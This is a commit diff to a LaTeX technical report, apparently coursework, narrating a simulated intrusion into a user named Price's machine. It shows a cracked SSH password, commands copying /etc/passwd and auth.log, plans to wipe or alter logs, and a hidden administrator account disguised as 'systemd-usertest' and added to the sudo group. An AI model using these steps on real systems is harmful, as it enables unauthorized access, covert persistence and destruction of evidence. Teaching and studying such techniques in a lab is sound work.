

Before and after one commit to david-wm-sanders/uswacs-1-iy1d402-a1-technical-report, a LaTeX document (technical_report.tex): part of page 9 of 21 before the commit and two parts of pages 9 and 10 of 21 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Add more content

```diff
--- a/technical_report.tex
+++ b/technical_report.tex
@@ -268,28 +268,38 @@ Logging out.
 
 From the output above, I could see that the script successfully broke into Price's SSH account using the password: \texttt{qwertyuiop}
 
+
 \section{Examining Price's account}
 A reconnaissance phase is performed automatically as the last step in the script used to break into Price's SSH account. In this stage, the script calls a couple of commands over the SSH connection and writes the results into a \texttt{recon.txt} file on the attack machine. A copy of this file is included in Appendix~\ref{app:files:recon} -- included in this is a \term{cat} of the \texttt{/etc/passwd} file.
 
-Using the password discovered in the previous step of the investigation, I logged into Price's account via SSH to examine it and the machine remotely, and to gather more intelligence. [see screenshot proving log in and intel gathering]
+I could see from the \texttt{recon.txt} file that Price is a member of the sudo group. This made the rest of the investigation easier to conceal as I could wipe/modify logs and create new users in order to keep the investigation concealed.
 
-I also used \texttt{scp} to pull a copy of the \texttt{/var/log/auth.log} from Price's machine -- it is attached in Appendix~\ref{app:files:authlog}. To do this, I used the command: \term{scp -P 442 phillip@192.168.254.132:/var/log/auth.log auth.log}
+Using the password discovered in the previous step of the investigation, I logged into Price's account via SSH to examine it and the machine remotely, and to gather more intelligence. [see screenshot proving log in and intel gathering] The command that I used to connect over SSH was:\\
+\term{ssh -p 442 phillip@192.168.254.132}
 
-In this log file, I can see a lot of evidence of failed attempts to log into Price's SSH account on the machine before the correct password is found and authentication is successful -- I will need to remove this file to conceal the investigation from Price.
+I also used \texttt{scp} to pull a copy of the \texttt{/var/log/auth.log} from Price's machine -- it is attached, in a reduced form, in Appendix~\ref{app:files:authlog}. To do this, I used the command:\\
+\term{scp -P 442 phillip@192.168.254.132:/var/log/auth.log auth.log}
+
+In this log file, I can see a lot of evidence of failed attempts to log into Price's SSH account on the machine before the correct password is found and authentication is successful -- I will need to remove or modify this file to conceal the investigation from Price.
+
 
 \section{Setting up persistent access to the machine}
-todo: explain how to set up persistent access to the machine by creating a new account, making it superuser, and hiding it from Price
+In order to maintain persistent access to Price's machine I decided to create a new user with the command:\\
+\term{sudo adduser systemd-usertest}
 
-In order to ensure access to the machine is persistent, even if Price changes his password, I decided to create a new superuser on his machine. This was achieved with the following steps:
-\begin{enumerate}
-  \item todo: create user
-  \item todo: make user member of sudo group
-\end{enumerate}
+I used the username \textit{'systemd-usertest'} in an effort to disguise my presence from Price. As systemd provides a myriad of services, Price would hopefully attribute this new user to a \texttt{systemd} update.
+
+After creating the \textit{'systemd-usertest'} user, I made it a member of the \texttt{sudo} group with the command:\\
+\term{sudo usermod -aG sudo systemd-usertest}
+
+With this new account, I was able and will continue to be able to access Price's machine on demand for the course of the investigation.
+
 
 \section{Setting up a \texttt{squid} proxy to monitor traffic}
 todo: explain how to set up squid on the attack machine
 
 todo: explain how to get Price's machine to route web traffic through the proxy
+
 
 \section{Concealing the investigation from Price}
 todo: discuss steps that I took to conceal the investigation from Price, and detail some further methods that I could have taken
```
Also changed, not shown: technical_report.tex (2 more changed lines).
